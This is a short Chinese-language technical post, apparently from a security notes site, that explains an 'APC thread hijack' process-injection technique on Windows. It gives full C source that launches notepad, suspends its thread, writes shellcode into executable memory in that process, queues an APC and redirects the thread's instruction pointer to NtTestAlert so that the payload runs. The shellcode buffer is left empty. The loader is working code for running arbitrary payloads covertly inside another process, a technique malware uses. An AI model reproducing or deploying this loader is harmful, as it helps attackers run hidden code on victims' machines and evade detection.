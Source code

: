 # APC Thread Hijack

## 简介

我也不知道为什么要写这个....这玩意有点像脱裤子放屁....

昨天和某个dalao谈论了一下apc注入，我们经过友好的技术♂交流\(迫真\)，意识到了三环插入的apc无法确定时间执行，于是有了这个东西。

## 流程

1. 插入apc
2. 挂起线程
3. 修改rip指向NtTestAlert函数
4. 恢复线程

## 代码

```text
#include<Windows.h>
#include<stdio.h>

char shellcode[] =
"";

typedef VOID(NTAPI* pNtTestAlert)(VOID);

int main() {
	STARTUPINFOA si = { 0 };
	si.cb = sizeof(si);
	PROCESS_INFORMATION pi = { 0 };
	pNtTestAlert NtTestAlert = (pNtTestAlert)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtTestAlert");
	CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
	Sleep(1000);//Wait for thread initialization to complete -> nttestalert is executed
	SuspendThread(pi.hThread);
	LPVOID lpBuffer = VirtualAllocEx(pi.hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(pi.hProcess, lpBuffer, shellcode, sizeof(shellcode), NULL);
	CONTEXT ctx = { 0 };
	QueueUserAPC((PAPCFUNC)lpBuffer, pi.hThread, NULL);
	ctx.ContextFlags = CONTEXT_ALL;
	GetThreadContext(pi.hThread, &ctx);
	ctx.Rip = (DWORD64)NtTestAlert;
	SetThreadContext(pi.hThread, &ctx);
	ResumeThread(pi.hThread);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	//NtTestAlert();
	return 0;
}
```

![](../.gitbook/assets/image%20%28144%29.png)

